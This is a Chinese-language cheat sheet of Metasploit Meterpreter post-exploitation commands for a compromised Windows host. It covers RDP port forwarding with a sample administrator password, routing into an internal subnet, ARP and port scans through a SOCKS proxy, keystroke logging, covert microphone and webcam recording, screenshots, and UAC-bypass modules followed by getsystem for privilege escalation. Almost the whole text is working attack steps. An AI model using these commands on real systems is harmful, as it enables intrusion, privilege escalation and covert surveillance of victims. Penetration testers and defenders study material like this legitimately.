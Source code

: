 #### portfwd端口转发
```r
portfwd add -l 1111 -p 3389 -r 127.0.0.1 #将目标机的3389端口转发到本地1111端口
rdesktop 127.0.0.1:1111 # 需要输入用户名密码连接
rdesktop -u Administrator -p 123 127.0.0.1:1111 # -u 用户名 -p 密码
```

#### autoroute添加路由
```R
run autoroute -h # 查看帮助
run get_local_subnets # 查看目标内网网段地址
run autoroute -s 192.168.183.0/24  # 添加目标网段路由
run autoroute -p  # 查看添加的路由
```
#### 利用arp_scanner、portscan等进行扫描
```R
run post/windows/gather/arp_scanner RHOSTS=192.168.183.0/24
run auxiliary/scanner/portscan/tcp RHOSTS=192.168.183.146 PORTS=3389
```

#### Socks代理
```R
use auxiliary/server/socks4a
set srvhost 127.0.0.1
set srvport 2000
run
# 然后vim /etc/proxychains.conf ，在文件末尾添加socks4代理服务器
socks4 127.0.0.1 2000
proxychains nmap -Pn -sT 192.168.80.129 -p1-1000   #proxychains代理访问执行nmap操作
```
#### 键盘记录
```R
keyscan_start  # 开始键盘记录
keyscan_dump   # 导出记录数据
keyscan_stop   # 结束键盘记录
```
#### 网络摄像头
```R
record_mic　 # 音频录制
webcam_chat  # 开启视频聊天(对方有弹窗）
webcam_list  # 查看摄像头
webcam_snap  # 通过摄像头拍照
webcam_stream  # 通过摄像头开启视频监控(以网页形式进行监控≈直播）
```
#### 截屏
```R
screenshot  # 截屏
use espia  # 使用espia模块
screengrab  # 截屏
```
#### 绕过UAC提权 
msf内置一些bypassuac脚本，原理不同，使用方法类似，执行后返回一个新的会话，执行getsystem即可提权
```R
exploit/windows/local/bypassuac
exploit/windows/local/bypassuac_eventvwr
exploit/windows/local/bypassuac_injection
exploit/windows/local/bypassuac_injection_winsxs
exploit/windows/local/bypassuac_silentcleanup
exploit/windows/local/bypassuac_vbs

use exploit/windows/local/bypassuac
set session 1
run
getsystem
```